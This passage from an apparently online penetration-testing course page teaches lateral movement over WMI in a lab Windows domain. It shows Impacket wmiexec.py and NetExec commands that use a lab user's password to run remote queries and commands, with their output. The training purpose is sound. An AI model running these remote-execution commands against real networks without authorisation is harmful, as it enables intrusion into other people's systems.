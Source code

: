 [-] [Errno Connection error (172.20.0.52:445)] timed out
</code></pre>
<pre><code class="language-shell-session">[!bash!]$ wmiexec.py inlanefreight/helen:<a class="__cf_email__" data-cfemail="481a2d2c1a21273c707008797f7a667a786678667d7a" href="/cdn-cgi/l/email-protection">[email protected]</a> whoami -nooutput
Impacket v0.12.0.dev1+20240523.75507.15eff88 - Copyright 2023 Fortra
</code></pre>
<p>Alternatively, we can use NetExec to run WMI queries or execute commands using WMI. To perform a query we can use the option <code>--wmi &lt;QUERY&gt;</code>:</p>
<pre><code class="language-shell-session">[!bash!]$ proxychains4 -q netexec wmi 172.20.0.52 -u helen -p RedRiot88 --wmi "SELECT * FROM Win32_OperatingSystem"
RPC         172.20.0.52  135    SRV02            [*] Windows 10 / Server 2019 Build 17763 (name:SRV02) (domain:inlanefreight.local)
WMI         172.20.0.52  135    SRV02            [+] inlanefreight.local\helen:RedRiot88 (Pwn3d!)
WMI         172.20.0.52  135    SRV02            Caption =&gt; Microsoft Windows Server 2019 Standard
WMI         172.20.0.52  135    SRV02            Description =&gt;
WMI         172.20.0.52  135    SRV02            Name =&gt; Microsoft Windows Server 2019 Standard|C:\Windows|\Device\Harddisk0\Partition4
WMI         172.20.0.52  135    SRV02            Status =&gt; OK  
WMI         172.20.0.52  135    SRV02            CSCreationClassName =&gt; Win32_ComputerSystem
...SNIP...
</code></pre>
<p>To execute commands we can use the protocol <code>wmi</code> with the option <code>-x &lt;COMMAND&gt;</code>. Unlike impacket <code>wmiexec.py</code>, netexec can retrieve the output using WMI rather than SMB:</p>
<pre><code class="language-shell-session">[!bash!]$ proxychains4 -q netexec wmi 172.20.0.52 -u helen -p RedRiot88 -x whoami
RPC         172.20.0.52  135    SRV02            [*] Windows 10 / Server 2019 Build 17763 (name:SRV02) (domain:inlanefreight.local)
WMI         172.20.0.52  135    SRV02            [+] inlanefreight.local\helen:RedRiot88 (Pwn3d!)
WMI         172.20.0.52  135    SRV02            [+] Executed command: "whoami" via wmiexec
WMI         172.20.0.52  135    SRV02            inlanefreight\helen
</code></pre>
<h2>Conclusion</h2>
<p>WMI is a powerful tool for lateral movement, offering the ability to query and manage Windows systems remotely from both Windows and Linux environments. Understanding how to use and abuse WMI effectively can significantly enhance your lateral movement capabilities. In the next section, we will explore WinRM, another essential method for remote management and lateral movement in Windows environments.</p>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">
<p class="font-size-14 color-white mb-0">VPN Servers</p>
<p class="font-size-13 mb-0">
<i class="fas fa-exclamation-triangle text-warning"></i><span class="color-white ml-1">Warning:</span> Each
                    time you "Switch",
                    your connection keys are regenerated and you must re-download your VPN connection file.
                </p>
<p class="font-size-13 mb-0">
                    All VM instances associated with the old VPN Server will be terminated when switching to
                    a new VPN server. <br/>
                    Existing PwnBox instances will automatically switch to the new VPN server.</p>
<div class="row mb-3">
<div class="col-12 mt-2">
<div class="d-none justify-content-center vpn-loader">
<div class="spinner-border text-success" role="status">
<span class="sr-only">Switching VPN...</span>
</div>
</div>
<select aria-label="vpn server" class="selectpicker custom-form-control vpnSelector badge-select" title="Select VPN Server">